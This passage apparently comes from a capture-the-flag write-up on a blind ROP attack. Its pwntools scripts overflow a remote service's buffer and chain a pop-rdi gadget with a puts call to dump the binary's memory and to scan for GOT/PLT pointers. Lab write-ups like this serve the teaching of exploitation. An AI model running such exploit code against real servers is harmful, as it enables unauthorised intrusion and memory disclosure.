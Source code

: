 ## Leaking Binary
---
Now that we have the address of the `leak function` I though I could use this to leak the binary. Even though I leaked some parts of the binary, I must have done something wrong as a lot of data was missing from the resulting `ELF` file formed.

Heres the function I used anyway - 

```py
def LeakELF():
    f = open('leak.elf', 'wb')
    offset = BINARY_BASE
    while(offset < BINARY_BASE + 0x4000):
        pwn.log.info("At offset: " + hex(offset))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(offset)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        print(hex(pwn.unpack(mssg, 'all')))
        if len(mssg) == 0:
            f.write(b'\x00')
            offset += 1
        else:
            f.write(mssg)
            offset += len(mssg)
        io.close()
        f.flush()
```

## Leaking PLT
---
We have the `leak function` and I know that usually the `plt` section is somewhere after address `0x600000` so I kept on scanning 8 bytes at a time until I found any data that had the bytes `b'\x7f'` in them and printed the data in them.

Here is the function I used -

```py
def LeakPLT():
    for i in range(0x600000, 0x600000+0x4000, 8):
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(i)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        if b'\x7f' in mssg:
            pwn.log.success("Found Possible GOT at: " + hex(i))
            io.close()
        io.close()
```
